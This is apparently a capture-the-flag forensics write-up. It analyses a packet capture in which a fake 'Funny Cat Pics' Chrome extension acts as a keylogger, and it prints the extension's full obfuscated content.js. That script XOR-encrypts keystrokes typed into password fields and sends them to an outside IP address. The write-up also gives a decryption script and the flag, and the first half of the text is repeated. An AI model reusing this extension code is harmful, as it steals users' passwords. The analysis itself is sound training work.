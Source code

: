 ## Challenge Writeup: x-tension

**Category:** Forensics

## Challenge Description

Trying to get good at something while watching youtube isn’t the greatest idea

The hint suggests that the user’s activity was being monitored, possibly via a **browser extension**, while they were distracted.

The challenge provided a **pcap file**: `chal.pcapng`.


### Step 1: Inspect the pcap

* Open `chal.pcapng` in **Wireshark**.
* Filter for HTTP traffic:

  ```
  http.request
  ```
* We notice a **GET request for a Chrome extension**:

  ```
  GET /FunnyCatPicsExtension.crx HTTP/1.1
  Host: 192.168.20.1:1023
  ```
* The server responds with the `.crx` file containing `content.js` and `manifest.json`.

💡 This is likely **where the exfiltration mechanism is hidden**.

---

### Step 2: Analyze the extension

* `manifest.json` shows a content script runs on **all URLs** (`<all_urls>`).
* `content.js` contains obfuscated JavaScript. After deobfuscation, we see:

1. `getKey()` generates a **single-character key** based on the **current UTC minute + 0x20**.
2. `xorEncrypt()` XORs each character of the typed input with this key and encodes it as hex.
3. An event listener on `keydown` sends the **XOR-encrypted value** to a remote server:

   ```
   http://192.9.137.137:42552/?t=ENCRYPTED_HEX
   ```
4. Essentially, the extension **acts as a keylogger**, exfiltrating the flag one character at a time.

### Step 3: Extract encrypted characters from the pcap

* Use **PyShark** to parse HTTP requests in the pcap:

  * Filter for requests to `192.9.137.137:42552`.
  * Extract the `t` parameter (hex-encoded XORed character).
  * Compute the key using the **packet timestamp**: `UTC minute + 0x20`.

---

### Step 4: Decrypt the flag

* Each character is decrypted with:

```python
def xor_decrypt(enc_hex, key):
    enc_bytes = bytes.fromhex(enc_hex)
    return ''.join([chr(b ^ key) for b in enc_bytes])
```

* Concatenate all decrypted characters in the order of packet timestamps to reconstruct the **full flag**.

---

### Step 5: Python Script (Automation)

* The full Python script automates extraction and decryption from the pcap (see previous message).
* Running it gets the full flag.

---

## Challenge Writeup: x-tension (100 pts)

**Category:** Forensics / Network Traffic Analysis
**Points:** 100

**Description Hint:**

> “Trying to get good at something while watching youtube isn’t the greatest idea...”

* The hint suggests that the user’s activity was being monitored, possibly via a **browser extension**, while they were distracted.
* The challenge provided a **pcap file**: `chal.pcapng`.

---

### Step 1: Inspect the pcap

* Open `chal.pcapng` in **Wireshark**.
* Filter for HTTP traffic:

  ```
  http.request
  ```
* We notice a **GET request for a Chrome extension**:

  ```
  GET /FunnyCatPicsExtension.crx HTTP/1.1
  Host: 192.168.20.1:1023
  ```
* The server responds with the `.crx` file containing `content.js` and `manifest.json`.

💡 This is likely **where the exfiltration mechanism is hidden**.

---

### Step 2: Analyze the extension

* `manifest.json` shows a content script runs on **all URLs** (`<all_urls>`).
```json
{
  "manifest_version": 3,
  "name": "Funny Cat Pics Generator",
  "version": "1.0",
  "description": "Sends cat pics or something",
  "permissions": [
    "scripting"
  ],
  "host_permissions": [
    "<all_urls>"
  ],
  "content_scripts": [
    {
      "matches": ["<all_urls>"],
      "js": ["content.js"],
      "run_at": "document_idle"
    }
  ]
}
```
* `content.js` contains obfuscated JavaScript. After deobfuscation, we see:
```js
function _0x1e75(){const _0x598b78=['940KLmqcF','45092jwiXkN','fromCharCode','addEventListener','padStart','973KXuPbI','28240VWxZRs','3112764XnXYDi','toString','44frdLyF','814942lZkvEV','21078OiMojE','getUTCMinutes','key','target','927aCoiKZ','551255yJTaff','type','117711JQghmv','keydown','charCodeAt','length'];_0x1e75=function(){return _0x598b78;};return _0x1e75();}const _0x421cd8=_0x16e0;function _0x16e0(_0x3b1337,_0x4a4a90){const _0x1e75a5=_0x1e75();return _0x16e0=function(_0x16e0f9,_0x124fc6){_0x16e0f9=_0x16e0f9-0xac;let _0x20d287=_0x1e75a5[_0x16e0f9];return _0x20d287;},_0x16e0(_0x3b1337,_0x4a4a90);}(function(_0x4db7df,_0x152423){const _0x419a6d=_0x16e0,_0x528a3a=_0x4db7df();while(!![]){try{const _0x3bd5a6=-parseInt(_0x419a6d(0xac))/0x1+parseInt(_0x419a6d(0xb9))/0x2+parseInt(_0x419a6d(0xbf))/0x3+parseInt(_0x419a6d(0xc1))/0x4*(-parseInt(_0x419a6d(0xb2))/0x5)+parseInt(_0x419a6d(0xad))/0x6*(parseInt(_0x419a6d(0xbd))/0x7)+parseInt(_0x419a6d(0xbe))/0x8*(parseInt(_0x419a6d(0xb1))/0x9)+-parseInt(_0x419a6d(0xb8))/0xa*(-parseInt(_0x419a6d(0xb4))/0xb);if(_0x3bd5a6===_0x152423)break;else _0x528a3a['push'](_0x528a3a['shift']());}catch(_0x14838d){_0x528a3a['push'](_0x528a3a['shift']());}}}(_0x1e75,0xd956e));function getKey(){const _0x5a2d05=_0x16e0,_0x3733b8=new Date()[_0x5a2d05(0xae)]();return String[_0x5a2d05(0xba)](_0x3733b8+0x20);}function xorEncrypt(_0x2d1e8c,_0x3beac1){const _0x404414=_0x16e0;let _0x406d63='';for(let _0x58a85f=0x0;_0x58a85f<_0x2d1e8c[_0x404414(0xb7)];_0x58a85f++){const _0x384e0a=_0x2d1e8c[_0x404414(0xb6)](_0x58a85f),_0x4250be=_0x3beac1['charCodeAt'](0x0),_0x4df57c=_0x384e0a^_0x4250be;_0x406d63+=_0x4df57c[_0x404414(0xc0)](0x10)[_0x404414(0xbc)](0x2,'0');}return _0x406d63;}document[_0x421cd8(0xbb)](_0x421cd8(0xb5),_0x4e7994=>{const _0x39d3e2=_0x421cd8,_0x260e7d=_0x4e7994[_0x39d3e2(0xb0)];if(_0x260e7d[_0x39d3e2(0xb3)]==='password'){const _0x2c5a17=_0x4e7994[_0x39d3e2(0xaf)][_0x39d3e2(0xb7)]===0x1?_0x4e7994[_0x39d3e2(0xaf)]:'',_0x5e96ad=getKey(),_0x5a4007=xorEncrypt(_0x2c5a17,_0x5e96ad),_0x3a36f2=encodeURIComponent(_0x5a4007);_0x2c5a17&&fetch('http://192.9.137.137:42552/?t='+_0x3a36f2);}});
```

1. `getKey()` generates a **single-character key** based on the **current UTC minute + 0x20**.
2. `xorEncrypt()` XORs each character of the typed input with this key and encodes it as hex.
3. An event listener on `keydown` sends the **XOR-encrypted value** to a remote server:

   ```
   http://192.9.137.137:42552/?t=ENCRYPTED_HEX
   ```
4. Essentially, the extension **acts as a keylogger**, exfiltrating the flag one character at a time.

---

### Step 3: Extract encrypted characters from the pcap

* Use **PyShark** to parse HTTP requests in the pcap:

  * Filter for requests to `192.9.137.137:42552`.
  * Extract the `t` parameter (hex-encoded XORed character).
  * Compute the key using the **packet timestamp**: `UTC minute + 0x20`.

---

### Step 4: Decrypt the flag

* Each character is decrypted with:

```python
def xor_decrypt(enc_hex, key):
    enc_bytes = bytes.fromhex(enc_hex)
    return ''.join([chr(b ^ key) for b in enc_bytes])
```

* Concatenate all decrypted characters in the order of packet timestamps to reconstruct the **full flag**.

---

### Step 5: Python Script (Automation)

* The full Python script automates extraction and decryption from the pcap (see previous message).
* Running it prints the full flag.
```python
import pyshark
import urllib.parse
import time

# --- CONFIG ---
pcap_file = "chal.pcapng"
target_host = "192.9.137.137"
target_port = "42552"

# --- FUNCTION TO XOR-DECRYPT ---
def xor_decrypt(enc_hex, key):
    enc_bytes = bytes.fromhex(enc_hex)
    return ''.join([chr(b ^ key) for b in enc_bytes])

# --- OPEN PCAP ---
cap = pyshark.FileCapture(pcap_file, display_filter="http.request")

flag_chars = []

for pkt in cap:
    try:
        host = pkt.http.host
        uri = pkt.http.request_uri
        if target_host in host and target_port in host:
            # Extract 't=' parameter
            if "?t=" in uri:
                enc_param = uri.split("?t=")[1]
                enc_hex = urllib.parse.unquote(enc_param)

                # Use the packet timestamp to get the UTC minute for the key
                pkt_time = float(pkt.sniff_timestamp)
                utc_minute = time.gmtime(pkt_time).tm_min
                key = utc_minute + 0x20

                char = xor_decrypt(enc_hex, key)
                flag_chars.append(char)
    except AttributeError:
        continue

cap.close()

# --- RECONSTRUCT FULL FLAG ---
full_flag = ''.join(flag_chars)
print("[+] Full Flag:", full_flag)
```

### Step 6: Flag
```
ictf{extensions_might_just_suck}
```